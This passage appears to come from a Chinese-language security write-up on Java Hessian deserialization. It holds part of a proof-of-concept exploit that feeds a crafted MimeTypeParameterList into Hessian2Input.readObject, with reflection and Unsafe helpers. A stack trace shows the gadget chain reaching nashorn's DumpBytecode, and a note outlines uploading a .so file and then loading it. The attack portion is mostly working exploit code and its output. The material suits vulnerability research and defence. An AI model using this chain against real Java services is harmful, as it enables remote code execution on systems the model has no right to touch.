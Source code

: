 ```java
        out.writeObject(mimeTypeParameterList);
        out.flushBuffer();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        Hessian2Input input = new Hessian2Input(bais);
        input.readObject();
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static Unsafe getUnsafe() throws Exception{
        Class<?> aClass = Class.forName("sun.misc.Unsafe");
        Constructor<?> declaredConstructor = aClass.getDeclaredConstructor();
        declaredConstructor.setAccessible(true);
        Unsafe unsafe= (Unsafe) declaredConstructor.newInstance();
        return unsafe;
    }
}
```

```java
dumpBytecode:107, DumpBytecode (jdk.nashorn.internal.codegen)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invoke:71, Trampoline (sun.reflect.misc)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invoke:275, MethodUtil (sun.reflect.misc)
run:1108, UIDefaults$ProxyLazyValue$1 (javax.swing)
doPrivileged:-1, AccessController (java.security)
createValue:1087, UIDefaults$ProxyLazyValue (javax.swing)
getFromHashtable:216, UIDefaults (javax.swing)
get:161, UIDefaults (javax.swing)
toString:290, MimeTypeParameterList (java.awt.datatransfer)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
expect:2880, Hessian2Input (com.caucho.hessian.io)
readString:1398, Hessian2Input (com.caucho.hessian.io)
readObjectDefinition:2180, Hessian2Input (com.caucho.hessian.io)
readObject:2122, Hessian2Input (com.caucho.hessian.io)
```

先上传so文件，然后在load加载



## 浅析一下BCEL表达式
